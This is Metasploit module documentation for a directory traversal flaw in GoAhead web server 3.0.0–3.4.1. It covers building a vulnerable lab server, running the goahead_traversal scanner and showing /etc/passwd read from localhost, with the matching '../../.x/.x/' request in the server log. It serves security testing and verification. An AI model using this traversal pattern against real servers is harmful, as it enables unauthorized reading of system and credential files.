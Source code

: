 ## Vulnerable Application

GoAhead web server by EmbedThis versions from 3.0.0 through 3.4.1 contains a directory traversal vulnerability.
To exploit this vulnerability, each `../` must be matched with a `.x/`, with each being grouped together.
For instance a depth of 2 will look as follows: `../../.x/.x/foobar`.

An excellent writeup is available on [PacketStorm](https://packetstormsecurity.com/files/131156/GoAhead-3.4.1-Heap-Overflow-Traversal.html).

### Install on Kali

Since `goahead` is available on Git, we can simply download the vulnerable version, compile, and run it.

```
root@kali:/tmp# wget https://github.com/embedthis/goahead/archive/v3.4.1.tar.gz
--2019-10-07 20:42:28--  https://github.com/embedthis/goahead/archive/v3.4.1.tar.gz
Resolving github.com (github.com)... 192.30.253.113
Connecting to github.com (github.com)|192.30.253.113|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://codeload.github.com/embedthis/goahead/tar.gz/v3.4.1 [following]
--2019-10-07 20:42:29--  https://codeload.github.com/embedthis/goahead/tar.gz/v3.4.1
Resolving codeload.github.com (codeload.github.com)... 192.30.253.120
Connecting to codeload.github.com (codeload.github.com)|192.30.253.120|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [application/x-gzip]
Saving to: ‘v3.4.1.tar.gz’

v3.4.1.tar.gz                                   [     <=>                                                                                 ]   5.95M  6.35MB/s    in 0.9s    

2019-10-07 20:42:30 (6.35 MB/s) - ‘v3.4.1.tar.gz’ saved [6234594]

root@kali:/tmp# tar -zxf v3.4.1.tar.gz 
root@kali:/tmp# cd goahead-3.4.1/
root@kali:/tmp/goahead-3.4.1# make
make --no-print-directory -f projects/goahead-linux-default.mk all
      [Info] Use make SHOW=1 to trace executed commands.
      [Copy] build/linux-x64-default/bin/ca.crt
      [Copy] build/linux-x64-default/inc/osdep.h
      [Copy] build/linux-x64-default/inc/est.h
   [Compile] build/linux-x64-default/obj/estLib.o
      [Link] build/linux-x64-default/bin/libest.so
      [Copy] build/linux-x64-default/inc/goahead.h
      [Copy] build/linux-x64-default/inc/js.h
   [Compile] build/linux-x64-default/obj/action.o
   [Compile] build/linux-x64-default/obj/alloc.o
   [Compile] build/linux-x64-default/obj/auth.o
   [Compile] build/linux-x64-default/obj/cgi.o
   [Compile] build/linux-x64-default/obj/crypt.o
   [Compile] build/linux-x64-default/obj/file.o
   [Compile] build/linux-x64-default/obj/fs.o
   [Compile] build/linux-x64-default/obj/http.o
   [Compile] build/linux-x64-default/obj/js.o
   [Compile] build/linux-x64-default/obj/jst.o
   [Compile] build/linux-x64-default/obj/options.o
   [Compile] build/linux-x64-default/obj/osdep.o
   [Compile] build/linux-x64-default/obj/rom-documents.o
   [Compile] build/linux-x64-default/obj/route.o
   [Compile] build/linux-x64-default/obj/runtime.o
   [Compile] build/linux-x64-default/obj/socket.o
   [Compile] build/linux-x64-default/obj/upload.o
   [Compile] build/linux-x64-default/obj/est.o
   [Compile] build/linux-x64-default/obj/matrixssl.o
   [Compile] build/linux-x64-default/obj/nanossl.o
   [Compile] build/linux-x64-default/obj/openssl.o
      [Link] build/linux-x64-default/bin/libgo.so
   [Compile] build/linux-x64-default/obj/goahead.o
      [Link] build/linux-x64-default/bin/goahead
   [Compile] build/linux-x64-default/obj/test.o
      [Link] build/linux-x64-default/bin/goahead-test
   [Compile] build/linux-x64-default/obj/gopass.o
      [Link] build/linux-x64-default/bin/gopass

You can now install via "sudo make  install" or run GoAhead via: "sudo make run"
To run locally, put linux-x64-default/bin in your path

root@kali:/tmp/goahead-3.4.1# build/linux-x64-default/bin/goahead --verbose --home test /var/www/html/
```

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/http/goahead_traversal```
  4. Do: ```set rhosts [ip]```
  5. Do: ```set depth [number]```
  6. Do: ```run```
  7. You should get the file contents.

## Options

  **DEPTH**

  The depth to traverse from the webroot.  This does not need to be exact, overshooting (using a number larger than needed)
  will still result in the file being obtained.  Default is `5`

  **FILEPATH**

  The path to the file to read.  Default is `/etc/passwd`.

## Scenarios

### GoAhead 3.4.1 on Kali

Install from the instructions at the top of this document.

```
msf5 > use auxiliary/scanner/http/goahead_traversal 
msf5 auxiliary(scanner/http/goahead_traversal) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 auxiliary(scanner/http/goahead_traversal) > set depth 5
depth => 5
msf5 auxiliary(scanner/http/goahead_traversal) > run

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin

[+] File saved in: /root/.msf4/loot/20191007213309_default_127.0.0.1_goahead.traversa_324804.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Server Logs

When setting the server to verbose output, the following is shown during exploitation:

```
# build/linux-x64-default/bin/goahead --verbose --home test /var/www/html/
goahead: 2: Configuration for Embedthis GoAhead
goahead: 2: ---------------------------------------------
goahead: 2: Version:            3.4.1
goahead: 2: BuildType:          Debug
goahead: 2: CPU:                x64
goahead: 2: OS:                 linux
goahead: 2: Host:               127.0.1.1
goahead: 2: Directory:          /var/www/html/goahead-3.4.1/test
goahead: 2: Documents:          /var/www/html/
goahead: 2: Configure:          me -d -q -platform linux-x86-default -configure . -with est -gen make
goahead: 2: ---------------------------------------------
goahead: 2: Started http://*:80
goahead: 2: Started https://*:443
goahead: 2: GET ../../../../../.x/.x/.x/.x/.x/etc/passwd HTTP/1.1
```
